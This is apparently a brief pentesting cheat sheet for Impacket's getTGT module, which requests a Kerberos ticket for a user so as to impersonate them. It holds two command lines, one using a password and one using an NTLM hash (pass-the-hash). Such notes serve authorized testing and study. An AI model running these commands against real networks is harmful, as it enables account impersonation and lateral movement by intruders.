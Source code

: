 # Impacket-getTGT

## Use this impacket module to obtain a TGT of a user to impersonate him so that you can gain further access within a network.

#### 1) 

    impacket-getTGT DOMAIN.COM/USERNAME:PASSWORD -dc-ip DC_IP

(Request a TGT using valid credentials)

#### 2) 

    impacket-getTGT DOMAIN.COM/USERNAME -hashes NTLM_HASH -dc-ip DC_IP

(Request a TGT using an NTLM hash)

### The ticket is saved as a .ccache file.
